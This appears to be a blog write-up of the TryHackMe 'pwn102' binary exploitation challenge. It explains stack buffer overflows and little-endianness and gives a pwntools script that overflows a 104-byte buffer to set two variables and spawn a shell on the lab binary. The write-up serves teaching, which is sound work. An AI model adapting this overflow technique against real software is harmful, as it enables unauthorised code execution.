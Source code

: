 ```yaml
---
title: "pwn102"
date: 2024-01-10
layout: "simple"
categories: [Binary exploitation]
tags: [Tryhackme]
image: https://i.ibb.co/cgYN2Kr/th-3134630742.jpg
---
```



## 102

### Intoroduction

So for the next challenge we are required to modify a variable's value. This occurs when data larger than the allocated memory space (buffer) is written into that buffer. As a result, it can overwrite adjacent memory, including variables. But then if the stack grows downwards and the return address is above the variables space it should write the the memory below and not above, right? No, what happens is functions called later get stack frames at lower memory, and the return address is pushed to the higher address than the local variables. But arrays and buffers are indexed upwards in memory, so writing past the end of the array will nicely land on the return address next on the stack.

The stack would look like this:

```
 <---- stack grows to the left
    memory addresses increase to the right -->
  0x8000                        0x8010
  +--------+----------+---------++------------
  + buf[8] | ret addr | char *s ||   ....... 
  +--------+----------+---------++--------------

```
Let's analyze the binary in ghidra for a better look.

### Analysis

![4](https://i.ibb.co/N2bFgf6/ghidra.png)

Here we can see that we have a buffer set to 104, meaning we can input data larger than 104 and be able to modify the variables that come in after. We can now see that we have two variables that have been defined. We can also see an if function that checks if the two variables are equal to some values, if not the program exits. Since we now know what the two values should be equal to, let us modify them.

### Exploit

After the disassembly we can now come up with our very own exploit. This time we are going to be using pwntools to craft an exploit. Looking at our disassembled code in ghidra we can see that the values for parameter 1 and parameter 2 should be ```0xc0ff33 and 0xc0d3``` respectively. Due to little endianness we first pass in the second parameter and then the first parameter. Little Endianness refers to the byte order used to store data in computer memory. In a system that uses Little Endianness, the least significant byte (the "little end") of a multi-byte value is stored at the lowest memory address, while the most significant byte (the "big end") is stored at a higher memory address. To check for endianness you can use ```rabin2 -I binary```.

Awesome now with the information gathered lets craft an exploit.

```
from pwn import *

p = process("./pwn102.pwn102") # runs the binary locally
#p = remote("ip_provided", 9002) # runs remotely

param_1 = p32(0xc0ff33) # packed in 32 bit since it is short
param_2 = p32(0xc0d3)

payload = b'A' * 104 # filling the buffer with bunch of A's
payload += param_2 
payload += param_1

p.sendlineafter("?", payload) # sending the payload
p.interactive() # spawn a shell
```